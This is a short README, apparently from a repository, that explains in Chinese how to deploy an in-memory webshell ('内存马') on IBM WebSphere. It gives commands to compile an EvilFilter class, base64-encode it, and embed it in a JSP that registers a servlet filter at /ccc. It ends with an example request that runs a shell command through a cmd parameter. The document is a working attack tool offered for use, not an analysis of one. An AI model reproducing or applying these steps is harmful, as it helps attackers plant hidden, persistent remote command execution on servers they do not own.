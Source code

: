 # WebsphereMemoryWebshell

Websphere内存马

## 使用方式

1. 自行修改`src/EvilFilter.java`中webshell实现方式，然后编译EvilFilter.java

```bash
cd src;
javac -classpath javax.servlet-api-4.0.1.jar ./EvilFilter.java
```

2. 将生成的字节码转为base64格式

```bash
cat EvilFilter.class | base64 -w 0 > EvilFilter.class.base64
```

3. 将EvilFilter.class.base64复制到`jsp/webshell.jsp`的第40行

4. 此外还可以自行修改`jsp/webshell.jsp`的第25-27行

```jsp

private static String filterName = "EvilFilter";
private static String filterClassName = "EvilFilter";
private static String url = "/ccc";
```

5. 访问

```
GET /ccc?cmd=touch%20/tmp/success HTTP/1.1
Host: 192.168.76.130:9443
Connection: close

```